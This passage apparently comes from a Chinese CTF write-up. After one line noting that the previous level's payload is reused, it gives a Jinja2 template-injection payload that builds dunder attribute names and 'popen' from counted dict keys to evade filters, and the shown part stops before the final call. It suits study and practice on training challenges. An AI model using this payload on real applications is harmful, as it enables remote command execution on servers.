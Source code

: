 [![在这里插入图片描述](assets/1698900310-d6aa84c66a58364df73d5f83cad3a02d.png)](https://storage.tttang.com/media/attachment/2022/08/14/7f3d6938-5e06-4661-9d39-88c656e2ab9b.png)

沿用上关 payload，简单修改一下

```plain
{% set po=dict(po=a,p=a)|join%}
{%set two=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set x=(()|select|string|list)|attr(po)(two)%}
{%set eighteen=dict(aaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set hundred=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set a=(x,x,dict(class=a)|join,x,x)|join()%}  
{%set b=(x,x,dict(base=a)|join,x,x)|join() %}  
{%set c=(x,x,dict(subclasses=a)|join,x,x)|join() %}   
{%set d=(x,x,dict(getitem=a)|join,x,x)|join()%}
{%set e=(x,x,dict(init=b)|join,x,x)|join()%} 
{%set f=(x,x,dict(globals=b)|join,x,x)|join()%} 
{%set g=dict(pop=a,en=b)|join %} 
{%set h=self|string|attr(d)(eighteen)%} 
```